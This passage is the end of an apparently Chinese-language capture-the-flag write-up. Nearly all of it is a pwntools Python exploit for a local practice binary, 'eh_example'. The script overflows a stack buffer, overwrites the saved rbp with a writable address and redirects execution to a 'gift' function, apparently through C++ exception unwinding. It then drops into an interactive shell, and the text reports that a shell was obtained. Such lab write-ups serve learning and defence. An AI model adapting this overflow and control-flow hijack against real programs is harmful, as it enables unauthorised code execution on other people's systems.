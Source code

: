##   
## exploit构造  
  
经过前面的分析，构造出下方的exploit。  
  
  
```
import sys
import time
import pwn

sys.path.append('../MyTools')
import conversion

pwn.context.clear()
pwn.context.update(
    arch = 'amd64', os = 'linux',
)

target_info = {
    'exec_path': './eh_example',
    'exec_info': None,
    'addr_len': 0x8,
    'callee_buf2stack_len': 0x30,
    'caller_stack_len': 0x38,
}

"""1. buffer after eat payload can throw2. set rbp to an RW address3. set gift address [maybe need offset to find catch]"""

target_info['exec_info'] = pwn.ELF(target_info['exec_path'])
gitf_addr = target_info['exec_info'].symbols['_ZL9gift_givev']
print('[++] gift address = {0}'.format(hex(gitf_addr)))

conn = pwn.process(target_info['exec_path'])

conn.recvuntil(b'stage 2\n')
pwn.pause()
payload = b'A' * target_info['callee_buf2stack_len']
payload += pwn.p64(0x404a00)
payload += pwn.p64(0x4016b1)
conn.send(payload)

conn.interactive()

```  
  
##   
## 成功PWN  
  
运行exploit后成功拿到Shell，完成PWN！  
  